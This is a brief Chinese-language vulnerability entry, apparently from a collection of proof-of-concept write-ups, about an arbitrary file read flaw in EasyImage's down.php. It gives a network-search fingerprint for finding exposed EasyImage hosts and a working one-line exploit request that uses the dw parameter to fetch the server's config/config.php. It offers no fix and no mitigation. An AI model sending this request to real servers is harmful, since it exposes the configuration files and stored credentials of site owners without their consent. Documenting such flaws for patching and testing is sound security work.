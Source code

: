 # EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>EasyImage</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EasyImage-简单图床"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1678874513039-c454fc7f-e231-4417-b7a9-ebadfa12d0ba.png)

验证POC

```plain
/application/down.php?dw=./config/config.php
```

![img](../../../.vuepress/public/img/1678874587131-e65d3f26-f9b1-4ada-9885-527a8627644b.png)